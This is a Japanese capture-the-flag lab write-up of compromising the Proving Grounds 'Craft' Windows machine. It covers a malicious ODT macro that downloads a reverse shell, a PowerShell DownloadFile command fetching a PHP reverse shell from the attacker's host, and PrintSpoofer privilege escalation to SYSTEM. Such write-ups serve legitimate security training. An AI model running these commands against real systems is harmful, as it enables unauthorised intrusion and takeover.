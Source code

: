 # Enumeration

## nmap

```
# Nmap 7.94SVN scan initiated Thu Jul  4 22:56:55 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/hatto/CTF/Offsec/ProvinGrounds/Craft/results/192.168.162.169/scans/_full_tcp_nmap.txt -oX /home/hatto/CTF/Offsec/ProvinGrounds/Craft/results/192.168.162.169/scans/xml/_full_tcp_nmap.xml 192.168.162.169
Nmap scan report for 192.168.162.169
Host is up, received user-set (0.097s latency).
Scanned at 2024-07-04 22:56:55 JST for 136s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 125 Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-title: Craft
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/4%OT=80%CT=%CU=%PV=Y%DS=4%DC=T%G=N%TM=6686AAAF%P=x86_64-pc-linux-gnu)
SEQ(SP=FF%GCD=1%ISR=10A%TS=U)
SEQ(SP=FF%GCD=1%ISR=10A%TI=I%TS=U)
OPS(O1=M551NW8NNS%O2=M551NW8NNS%O3=M551NW8%O4=M551NW8NNS%O5=M551NW8NNS%O6=M551NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M551NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=N)

Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=255 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   96.87 ms 192.168.45.1
2   96.83 ms 192.168.45.254
3   97.18 ms 192.168.251.1
4   97.31 ms 192.168.162.169

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  4 22:59:11 2024 -- 1 IP address (1 host up) scanned in 135.76 seconds
```

Windowsにしては珍しく80番ポートしか開いていいなかった。

とりあえず、ウェブサイトにアクセスしてみる。

![](screenshot/image-20240706124650081.png)

どこかの会社のホームページっぽい

ページを下にスクロールしていくと履歴書をアップロードするフォームを見つけた。

![](screenshot/image-20240706125119241.png)

適当なファイルをアップロードしてみる。

![](screenshot/image-20240706125451544.png)

`ODT`ファイルのみを受け付けているらしい。ODTファイルをアプリケーションする

![](screenshot/image-20240706125704873.png)

正常にアップロードできた。

googleで `odt file exploit` で調べてみると`LibreOffice`と`OpenOffice`にRCEの脆弱性が発見されたという記事を見つけた。

[Severe RCE Flaw Disclosed in Popular LibreOffice and OpenOffice Software](https://thehackernews.com/2019/02/hacking-libreoffice-openoffice.html)

どうやらODTファイルを開く際のイベントに悪意のあるマクロを設定することによりRCEが発火するらしい

# Exploit

この脆弱性を悪用する以下のPoCを見つけた

[macro-generator](https://github.com/jotyGill/macro-generator)

まず、リバースシェルを作成する

![](screenshot/image-20240706130935760.png)

ペイロードを配信するhttpサーバーを起動する

<img src="screenshot/image-20240706131112160.png" style="zoom:200%;" />

Microsoft Office および Libre Office に貼り付けるマクロを生成する

```
python3 macro-generator.py --host 192.168.45.171 --port 4444 -r ':8000/win/rshell.exe'
```

LibreOffice用のマクロを使用する

![](screenshot/image-20240706132033199.png)

生成されたマクロをodtファイルに適用する

LibreOfficeを起動して ツール→マクロ→マクロの編集 に移動する

![](screenshot/image-20240706132951662.png)

矢印がさしているボタンをからマクロの管理ページがひらくので新規作成を押し、適当な名前で保存する

![](screenshot/image-20240706133137216.png)

以下のようになっていればOK

![](screenshot/image-20240706133253259.png)

生成したマクロを貼り付ける

![](screenshot/image-20240706133504414.png)

つづいてマクロをイベントに割り当てる。ツール→カスタマイズからイベントタグに移動し

![](screenshot/image-20240706133853426.png)

矢印の順番にクリックし作成したマクロを選択肢OKを押す

![](screenshot\image-20240706133933495.png)

シェルを受け取る待ち受けを設定する

<img src="screenshot/image-20240706134115879.png" style="zoom:200%;" />

作成したodtファイルをフォームにアップロードしてしばらく待つとhttpリクエストが届き、`thecybergeek`としてのシェルを取得できた。

![](screenshot/image-20240706134943406.png)

# Privilege Escalation

## apache

`C:\Users` フォルダを見てみると管理者以外に`apache`というユーザーがいることが分かるので横移動する必要がありそう

![](screenshot/image-20240706135628943.png)

Cドライブ直下にウェブサイトやウェブアプリケーションを開発・運用するための環境を簡単に構築できるソフトウェアである`xampp`というソフトウェアのフォルダを見つけた

![](screenshot/image-20240706140114007.png)

xamppディレクトリ内を探索しているとWebサイトで動いていたであろう`upload.php`ファイルなどが見つかった。

![](screenshot/image-20240706140845156.png)

`icacls` でアクセス権限を調べてみるとどのユーザにも書き込み権限、ファイルの追加権限が付与されているのでphp-reverse-shellをアップロードすることでユーザー`apache`に横移動できる可能性がある。

![](screenshot/image-20240706141251758.png)

[Online Reverse Shell Generator](https://www.revshells.com/) で作成したWindowsようにphpリバースシェルを作成して`C:\xampp\htdocs` にアップロードする

pythonでサーバーを起動して以下のコマンドからファイルをダウンロードする

```
(New-Object Net.WebClient).DownloadFile("http://192.168.45.171:8000/rev.php","c:\xampp\htdocs\rev.php")
```

待ち受けようのリスナー起動して ウェブサイトから `rev.php` にアクセスする

![](screenshot/image-20240706142938905.png)

`apache` として横移動に成功した

## Administrator

`whoami /priv` で権限の確認をしてみると `SeImpersonatePrivilege` が有効になっていた。

![](screenshot/image-20240706143106284.png)

この権限は`JuicyPotato` や `PrintSpoofer` を使用することで `DCOM/NTLM` リフレクションを悪用を介して `SeImpersonate` または `SeAssignPrimaryToken` 権限を悪用し権限の昇格を行える可能性がある。

必要になる`nc.exe`と`PrintSpoofer.exe`をダウンロードする

![](screenshot/image-20240706144148786.png)

![](screenshot/image-20240706144601721.png)

攻撃側マシンでリスナー設定し以下のように `PrintSpoofer` を実行する

![](screenshot/image-20240706144736311.png)

`nt authority\system`  としてシェルを獲得できた

![](screenshot/image-20240706144852639.png)

`local.txt` を獲得

![](screenshot/image-20240706145130589.png)

`proof.txt` を獲得

![](screenshot/image-20240706145012641.png)





















